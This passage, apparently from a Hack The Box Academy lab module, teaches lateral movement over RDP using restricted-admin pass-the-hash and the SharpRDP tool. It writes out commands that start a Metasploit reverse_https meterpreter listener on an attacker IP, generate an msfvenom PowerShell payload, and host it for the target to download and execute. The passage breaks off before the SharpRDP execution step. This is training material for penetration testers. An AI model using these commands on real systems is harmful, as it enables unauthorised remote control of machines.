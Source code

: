From the window where we imported the ticket, we can use the `mstsc /restrictedAdmin` command:

  Remote Desktop Service (RDP)

```powershell-session
PS C:\Tools> mstsc.exe /restrictedAdmin
```

It will open a window as the currently logged-in user. It doesn't matter if the name is not the same as the account we are trying to impersonate.

![text](https://academy.hackthebox.com/storage/modules/263/mstsc-restrictedadmin.png)

When we click login, it will allow us to connect to RDP using the hash:

![text](https://academy.hackthebox.com/storage/modules/263/mstsc-rdp-with-ticket.png)

## SharpRDP

[SharpRDP](https://github.com/0xthirteen/SharpRDP) is a .NET tool that allows for non-graphical, authenticated remote command execution through RDP, leveraging the `mstscax.dll` library used by RDP clients. This tool can perform actions such as connecting, authenticating, executing commands, and disconnecting without needing a GUI client or SOCKS proxy.

SharpRDP relies on the terminal services library (`mstscax.dll`) and generates the required DLLs (`MSTSCLib.DLL` and `AxMSTSCLib.DLL`) from the `mstscax.dll`. It uses an invisible Windows form to handle the terminal services connection object instantiation and perform actions needed for lateral movement.

We will use Metasploit and PowerShell to execute commands on the target machine. In our Linux machine we will execute Metasploit to listen on port 8888:

```shell-session
BusySec@htb[/htb]$ msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_https; set LHOST 10.10.14.207; set LPORT 8888; set EXITONSESSION false; set EXITFUNC thread; run -j"
```

Then we will generate a payload with msfvenom using PowerShell Reflection:

```shell-session
BusySec@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.207 LPORT=8888 -f psh-reflection -o s
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 774 bytes
Final size of psh-reflection file: 3543 bytes
Saved as: s
```

Next we use python http server to host our payload:

```shell-session
BusySec@htb[/htb]$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now we can use `SharpRDP` to execute a powershell command to execute our payload and provide a session:

